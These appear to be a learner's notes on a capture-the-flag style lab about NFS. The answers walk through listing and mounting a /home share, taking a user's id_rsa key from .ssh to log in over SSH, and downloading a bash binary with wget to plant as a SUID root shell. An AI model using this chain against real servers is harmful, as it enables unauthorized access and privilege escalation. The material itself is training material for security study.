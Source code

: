 - `7`

	![[images/Pasted image 20250218131634.png]]

**Which port contains the service we're looking to enumerate?**

- `2049`


**Now, use /usr/sbin/showmount -e \[IP\] to list the NFS shares, what is the name of the visible share?**

- `/home`

	![[images/Pasted image 20250218132250.png]]

**Then, use the mount command we broke down earlier to mount the NFS share to your local machine. Change directory to where you mounted the share- what is the name of the folder inside?**

- `cappucino`

	![[images/Pasted image 20250218132912.png]]


**Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?**

- `.ssh`

	![[images/Pasted image 20250218133037.png]]

**Which of these keys is most useful to us?**

- `id_rsa`

	![[images/Pasted image 20250218133153.png]]

**Can we log into the machine using *ssh -i \<key-file\> \<username\>@\<ip\>* ? (Y/N)**

- `Y`

	![[images/Pasted image 20250218133519.png]]

## Exploiting NFS


**Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?**

- `s`

```sh
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

![[images/Pasted image 20250218140053.png]]
![[images/Pasted image 20250218134444.png]]
